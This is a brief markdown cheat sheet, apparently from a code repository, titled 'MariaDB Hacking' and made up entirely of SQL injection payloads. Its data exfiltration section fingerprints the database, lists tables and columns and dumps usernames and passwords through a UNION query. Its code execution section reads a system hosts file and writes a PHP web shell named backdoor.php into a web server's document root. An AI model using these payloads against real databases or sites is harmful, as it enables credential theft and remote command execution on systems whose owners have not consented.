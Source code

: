 # MariaDB Hacking

## Data exfiltration
```sql
@@version
user()
table_name from information_schema.tables
column_name from information_schema.columns where table_name='users'
union all select 1, username, password from users
```

## Code Execution

```sql
load_file('C:/Windows/System32/drivers/etc/hosts')
union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```
